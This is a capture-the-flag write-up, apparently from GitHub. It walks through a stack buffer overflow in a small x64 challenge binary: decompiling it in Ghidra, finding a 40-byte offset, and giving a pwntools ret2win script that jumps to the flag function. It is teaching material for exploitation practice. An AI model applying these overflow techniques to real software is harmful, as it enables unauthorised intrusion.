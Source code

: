<h3> Binary Exploitation </h3>

#### This is a binary a friend of mine gave me and i decided to do it and it turns out pretty easy

#### Basic File Checks
![image](https://user-images.githubusercontent.com/127159644/227796080-4c7a83aa-bfbd-4e3f-8bc4-e9822a3f1219.png)

We can see its a x64 binary and the only protection enabled is `NX enabled`

I'll run the binary to know what it does

```
➜  ~ ./chall 
I ask you what your heart desire ? 
lol
I hear the secrets that you keep ! 
yea
➜  ~ 
```

Nothing really much happening here

So using ghidra i'll decompile the binary
![image](https://user-images.githubusercontent.com/127159644/227796173-66383c20-474c-4287-82c4-f03d817e7f78.png)

There's also a flag function in it but the flag is redacted
![image](https://user-images.githubusercontent.com/127159644/227796226-19541dc4-1ea3-4bc1-ae3d-c5bb3126b0a1.png)

So for this the task was 2 the first one was to get the flag while the second was to get shell

Getting the flag is basically just going to have to do with ret2win

Here's the main function

```
undefined8 main(void)

{
  undefined buf [24];
  void *local_10;
  
  disable_buffering();
  local_10 = mmap((void *)0x1337000,0x1000,7,0x22,0,0);
  puts("I ask you what your heart desire ? ");
  read(0,local_10,128);
  puts("I hear the secrets that you keep ! ");
  read(0,buf,128);
  return 0;
}
```

Looking at it since it doesn't do much we can spot the vulnerability already

```
read(0,buf,128);
```

It's reading 128 bytes into a buffer that can only hold up 24 bytes so this is a buffer overflow

Lets now perform the exploitation

#### Ret2Win Exploitation

First we need the offset needed to hijack the rip register
![image](https://user-images.githubusercontent.com/127159644/227796422-e7968080-3ae3-4bcc-943b-1effad48a96b.png)
![image](https://user-images.githubusercontent.com/127159644/227796452-5e6fb05a-e02f-449a-921a-bcccf7c010c9.png)

So the offset is `40` with this performing the ret2win should be straight forward

We just need the adderss of the flag function which can be gotten from gdb or ghidra
![image](https://user-images.githubusercontent.com/127159644/227796531-748320a3-0b21-45e1-a582-268c35e16423.png)

Now here's the solve script for performing the ret2win

```
from pwn import *
import warnings

io = process('./chall')
warnings.filterwarnings('ignore')

offset = 40
padding = b'B'*offset
addr = p64(0x00000000004011fb)

payload = padding + addr

io.send('lol')
io.sendline(payload)
#io.interactive()
io.recvline()
io.recvline()
flag = io.recvline()
success(flag)
```

Running it works
![image](https://user-images.githubusercontent.com/127159644/227796637-a2954788-2a4d-4606-832d-1930ec1736fb.png)

